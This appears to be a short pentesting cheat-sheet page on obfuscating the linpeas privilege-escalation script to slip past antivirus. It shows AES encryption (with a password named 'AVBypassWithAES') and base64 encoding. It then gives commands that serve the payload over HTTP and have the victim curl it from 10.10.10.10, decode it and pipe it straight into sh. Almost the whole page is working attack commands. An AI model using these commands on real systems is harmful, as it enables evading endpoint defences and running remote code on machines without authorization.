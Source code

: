 # Data Obfuscation

Data obfuscation is a method to make in sort that the data isn't comprehensible. There can be various reasons to do so, as well as various methods to do so. But generally speaking, it is because you don't want that others are able to "understand" what's going on, or what has happened.

## open-ssl encryption

```commandline
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim
```

## Base64 encoded

```commandline
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```